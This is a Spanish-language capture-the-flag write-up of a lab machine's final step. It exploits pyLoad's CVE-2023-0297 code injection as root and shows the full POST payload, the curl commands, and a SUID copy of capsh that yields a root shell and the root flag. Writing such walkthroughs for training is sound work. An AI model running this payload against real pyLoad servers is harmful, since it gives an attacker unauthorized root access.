 Es un servicio HTTP, si seguimos el redirect y analizamos el HTML podremos ver que se trata de un `pyLoad`, un servidor para manejar por web descargas de todo tipo.

Buscando por vulnerabilidades encontramos una inyección de código catalogada como CVE-2023-0297, no conocemos la versión que posee esta máquina para considerarse vulnerable por lo que nos quedará intentar. Buscando por PoCs encontramos que debemos enviarle algo como `jk=pyimport%20os;os.system("$commandhere");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa` a la ruta `/flash/addcrypted2` del servidor por POST.

Haciendo y probando a poner por un comando que cree un archivo en `/tmp/`, funciona

```bash
sau@pc:/tmp$ curl --data-raw 'jk=pyimport%20os;os.system("touch /tmp/testing");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' -s http://127.0.0.1:8000/flash/addcrypted2
Could not decrypt keysau@pc:/tmp$ ls -l
total 29
drwxr-xr-x 4 root root 4096 Oct  6 17:47 pyLoad
drwx------ 3 root root 4096 Oct  6 17:47 snap-private-tmp
drwx------ 3 root root 4096 Oct  6 17:47 systemd-private-40c6775e4d8847de99531d2e1818a66f-ModemManager.service-Ojh48h
drwx------ 3 root root 4096 Oct  6 17:47 systemd-private-40c6775e4d8847de99531d2e1818a66f-systemd-logind.service-FjLt1e
drwx------ 3 root root 4096 Oct  6 17:47 systemd-private-40c6775e4d8847de99531d2e1818a66f-systemd-resolved.service-AmAHui
-rw-r--r-- 1 root root    0 Oct  6 20:01 testing
drwx------ 2 root root 4096 Oct  6 17:47 tmpoetrzazv
drwx------ 2 root root 4096 Oct  6 17:47 vmware-root_729-4257135007
```

El propietario del archivo es root, por lo que ya sabiendo que ese es el usuario que corre el servicio simplemente podemos crearnos un copia SUID de un binario y convertirnos en root. Vamos a colocarlo en un script ya que estamos limitados de carácteres en la inyección de código.

```bash
sau@pc:/tmp$ cat test.sh
#!/bin/bash

cp /usr/sbin/capsh /tmp/nan && chmod u+s /tmp/nan
sau@pc:/tmp$ chmod +x test.sh # No olvides darle permisos de ejecución
sau@pc:/tmp$ curl -d 'jk=pyimport%20os;os.system("bash /tmp/test.sh");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' -s http://127.0.0.1:8000/flash/addcrypted2
sau@pc:/tmp$ ./nan --gid=0 --uid=0 --
root@pc:/tmp# rm nan
```

Ya podemos tomar la última flag.

```bash
root@pc:/root# ls -al
total 68
drwx------  7 root root  4096 Apr 27 15:32 .
drwxr-xr-x 21 root root  4096 Apr 27 15:23 ..
lrwxrwxrwx  1 root root     9 Jan 11  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root  4096 Apr  4  2023 .cache
drwxr-xr-x  3 root root  4096 Apr  4  2023 .local
-rw-r--r--  1 root root   161 Dec  5  2019 .profile
drwxr-xr-x  7 root root  4096 Jan 11  2023 .pyload
-rw-------  1 root root  3203 Apr 27 15:32 .viminfo
drwxr-xr-x  3 root root  4096 Apr 27 13:15 Downloads
-rw-r-----  1 root root    33 Oct  6 17:47 root.txt
drwx------  3 root root  4096 Jan 11  2023 snap
-rw-r--r--  1 root root 24576 Jan 11  2023 sqlite.db.bak
root@pc:/root# cat root.txt
20c3070a7044458d11344774d0******
```
